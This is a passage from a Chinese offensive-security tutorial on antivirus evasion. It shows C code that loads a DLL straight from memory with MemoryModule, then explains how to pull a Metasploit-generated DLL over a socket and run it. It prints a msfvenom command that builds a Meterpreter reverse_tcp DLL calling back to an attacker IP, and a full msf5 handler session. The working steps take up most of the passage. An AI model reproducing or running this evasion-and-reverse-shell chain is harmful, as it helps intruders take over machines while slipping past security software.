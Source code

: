 ```c
	}
	// 关闭打开PE文件的句柄
	CloseHandle(hBadCodeDll);
	// 导入PE文件
	hModule = MemoryLoadLibrary(bFileBuffer);
	// 如果加载失败，就退出
	if(hModule == NULL){
		delete [] bFileBuffer;
		return -1;
	}
	// 获取msg导出函数地址
	RunMsg = (msg)MemoryGetProcAddress(hModule,"msg");
	// 运行msg函数
	RunMsg();
	// 释放资源
	MemoryFreeLibrary(hModule);
	// 释放PE内存
	delete [] bFileBuffer;

	return GetLastError();
}
```


运行结果：

![2020-01-03-13-06-52](https://images.payloads.online/8277ad7a-4f5f-11ec-9a01-00d861bf4abb.png)

能够看到，成功加载并执行了msg函数。


## 0x03 反射DLL与MSF联动

不知道大家还是否记得第五课的Socket方式加载Shellcode，这里我将复用第五课的代码来实现与MSF的联动免杀。

思路是这样的：

通过Socket将Msf生成的DLL给接收到内存中，然后载入MemoryModule中，直接执行。

### 生成DLL


```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.170.138 LPORT=8899 -f dll -o ~/y.dll
```

![2020-01-03-13-07-02](https://images.payloads.online/82b32ae4-4f5f-11ec-80f1-00d861bf4abb.png)

**生成了一个5120字节的DLL**

然后设置一下MSF DLL发射器：

```
msf5 > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.170.138 -P 8899
[*] Payload handler running as background job 0.

[*] Started reverse TCP handler on 192.168.170.138:8899 
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/patchupdllinject/reverse_tcp
payload => windows/patchupdllinject/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.170.138 
LHOST => 192.168.170.138
msf5 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
msf5 exploit(multi/handler) > set DLL ~/y.dll
DLL => ~/y.dll
msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.
```